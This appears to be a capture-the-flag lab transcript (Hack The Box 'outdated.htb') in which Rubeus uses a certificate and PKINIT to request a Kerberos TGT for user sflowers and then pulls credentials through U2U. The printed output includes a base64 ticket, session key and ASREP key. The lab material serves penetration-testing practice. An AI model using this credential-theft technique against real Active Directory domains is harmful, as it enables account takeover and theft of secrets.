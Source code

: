 ```shell
PS C:\Users\btables\Documents> .\Rubeus.exe asktgt /user:sflowers /certificate:cert.pfx /password:"LRBT7MkOUQuRDTLp" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
.\Rubeus.exe asktgt /user:sflowers /certificate:cert.pfx /password:"LRBT7MkOUQuRDTLp" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[*] Using domain controller: 10.129.229.239:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIF0jCCBc6gAwIBBaEDAgEWooIE5zCCBONhggTfMIIE26ADAgEFoQ4bDE9VVERBVEVELkhUQqIhMB+g
      AwIBAqEYMBYbBmtyYnRndBsMb3V0ZGF0ZWQuaHRio4IEnzCCBJugAwIBEqEDAgECooIEjQSCBIkNgqUw
      FxPGj0Vpi4YqjMO7HqtC1sfkKNiM6+jvEGio9pJqaZGJcSN4uMVLljmRVKMPWOISyGfGxod1P6d7iKsM
      WBSiJEFkS3o/E/PQ/hMCMOVSsd62Wct8vLe3jRfXZqUBFTWjDPg8tjT3cG8+SGWGt8w4OK4cK2URfQFV
      63mqcBHOyZeEtCEZ5RzXiD6A2yuaozyAnwQF9ufUNIxOoTLIdLE7bI+3B730X3iWx7/Stkg9oiJKfHrI
      lwrbY833wkAT9VIZrXfKsf3w58dZHr7aEUPOWKMOsAKnazIZw7Dgp5VYC1sUz+/RWxFV3VdWrYZ+tNGt
      3inQ2ysFTf88UIGwB4sr0cSSPjzmjo/vAawShKwUvA6Cl1F+cDpVQOtVH5aslEmYj2pGfBKWP6O2TLSg
      bsO5g++0e9suCd+XgW8XT1PHNP2x+GNziA48ImUK99/C0IobPp1WMQlaDS2IeHoL4su47L8skTpDkmLm
      IBVXWxkSURCkwZ+tNgnWJalOuLlyxfcZklCvq0WHtyfxPoMGd9UZndKHu0RYkeHkj9Fr3v4KlLRFI1p6
      TRrhP/UKFg8wycDw/AsYFx56DSwAej2meABA/pBYrZm/imEyPAmvlfoh7mRC3eHnC3PR/NWouvV1ArRK
      7kEQ/oM7F57QVhmrnYF+nOB3XZUDNxMcJl0QampA14PdFJ8mKp5QdUt5nEd4o3K5eTCgsKOS9DJBRbvP
      qi9UNgRLMWLQ+lxxxaqsWbnQh69tQufSjc2wcECc6dDpvEMDJzC1v13Od++DrehUm8hi4SZ+BF9arbBH
      mXAVegpJbvLdgWjJ1o9SU1wcJwT7lrnmNiI9oUaVVeRIHjmN4hf47XGrXCqSNKhl7SBKjiqbjXvhxf+t
      QYzeoNznZlqrw6Lt8thf4yF8LcHwtXZdO6GzZ/2SE9gnf2A34QMQpFU8GwgGOY1v0uOH/kacYZ3MBXaU
      7E3OfGSWhYyoG24jfRrsGkXGzzzz7mvf28juQQYkbPTkVreWzP1nKdNGbZzyd+hhoPmSCynjQ51+gP7Z
      OnZMQ1AlG9VRxrmUOGWcfXvD8CPBXjKbdFNQQKY+btuGCA4Q+AfocMzUF0oEdVdrpUy9zDpITfH5WMge
      uo2VBoC+eaPFUCwVkhekVJrfVnOf7gy1kXdsIdGPT/+XL1OpQRxCN0o4lIfoqx6vsP2V2sA+ZIl6Luah
      +8jXX5fUkPP7S4bCqFyz6bciz+1HtNYotLtHrOz+b3XJOvq50smTUbnjVyTCgMpdrn6zaDaMeKRX57dr
      JqY2ot7WfIAD/Mt1fDiH7sae58dtyp88yNPsY5HA0PzRBDEXatHx04gpcLY5+vn4dDp839Z8h8/dxmz+
      UqcV6BzzBfz2yLrGApzJdoeNUHaQUQpgZaKid9OlqnW66xRjS/+wYrYZP5yzG3/+WtX6QfrzfyTyKMiq
      HS3VNZvyDQzo+YNnS0Q61DV5CXqizywvTGJyVgMPShTi0XC5CNtHG+mN/GMr5kxg9VCobc69faE40s7E
      HzjAWziXc/8P8Wl5zoxNr/2jgdYwgdOgAwIBAKKBywSByH2BxTCBwqCBvzCBvDCBuaAbMBmgAwIBF6ES
      BBAFrkBjShO/TIx+WQr1VmFToQ4bDE9VVERBVEVELkhUQqIVMBOgAwIBAaEMMAobCHNmbG93ZXJzowcD
      BQBA4QAApREYDzIwMjQwODI3MDI0NTM1WqYRGA8yMDI0MDgyNzEyNDUzNVqnERgPMjAyNDA5MDMwMjQ1
      MzVaqA4bDE9VVERBVEVELkhUQqkhMB+gAwIBAqEYMBYbBmtyYnRndBsMb3V0ZGF0ZWQuaHRi

  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers (NT_PRINCIPAL)
  UserRealm                :  OUTDATED.HTB
  StartTime                :  8/26/2024 7:45:35 PM
  EndTime                  :  8/27/2024 5:45:35 AM
  RenewTill                :  9/2/2024 7:45:35 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  Ba5AY0oTv0yMflkK9VZhUw==
  ASREP (key)              :  9B41916C3A54EF74979703ADF94F0A0A

[*] Getting credentials using U2U

  CredentialInfo         :
```